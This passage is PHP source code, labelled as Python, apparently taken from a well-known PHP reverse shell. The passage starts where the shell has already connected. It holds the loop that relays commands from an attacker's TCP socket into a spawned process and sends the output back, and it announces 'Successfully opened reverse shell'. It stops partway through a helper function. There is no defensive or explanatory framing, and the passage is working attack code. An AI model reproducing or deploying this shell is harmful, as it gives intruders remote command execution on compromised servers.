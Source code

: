 ```python
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
```